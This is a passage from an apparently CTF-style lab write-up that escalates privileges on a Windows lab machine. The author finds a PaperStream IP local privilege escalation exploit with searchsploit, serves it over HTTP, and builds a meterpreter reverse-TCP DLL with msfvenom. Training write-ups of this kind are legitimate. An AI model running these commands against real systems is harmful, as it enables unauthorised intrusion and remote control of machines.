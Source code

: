 Searching for exploit on `PaperStream IP`

```
┌──(mark㉿haxor)-[~/…/B2B/Pg/Practice/Jacko]
└─$ searchsploit paperstream               
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
PaperStream IP (TWAIN) 1.42.0.5685 - Local Privilege Escalation       | windows/local/49382.ps1
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Seems worth it lool

I'll get the file and transfer it to the target

```
                                                                                                       
┌──(mark㉿haxor)-[~/…/B2B/Pg/Practice/Jacko]
└─$ searchsploit -m windows/local/49382.ps1
  Exploit: PaperStream IP (TWAIN) 1.42.0.5685 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/49382
     Path: /usr/share/exploitdb/exploits/windows/local/49382.ps1
File Type: ASCII text

Copied to: /home/mark/Desktop/B2B/Pg/Practice/Jacko/49382.ps1


                                                                                                        
┌──(mark㉿haxor)-[~/…/B2B/Pg/Practice/Jacko]
└─$ mv 49382.ps1 exploit.ps1
                                                                                                        
┌──(mark㉿haxor)-[~/…/B2B/Pg/Practice/Jacko]
└─$ pyws -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Reading the exploit code shows we need to create a malicious .dll file 
![image](https://user-images.githubusercontent.com/113513376/213819531-dae9ab1e-113b-46a9-8d85-2706e9e3a19c.png)

```
msf6 > msfvenom -p windows/meterpreter/reverse_tcp -f dll -o shell.dll LHOST=tun0 LPORT=80
[*] exec: msfvenom -p windows/meterpreter/reverse_tcp -f dll -o shell.dll LHOST=tun0 LPORT=80

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of dll file: 8704 bytes
Saved as: shell.dll
msf6 > 

```
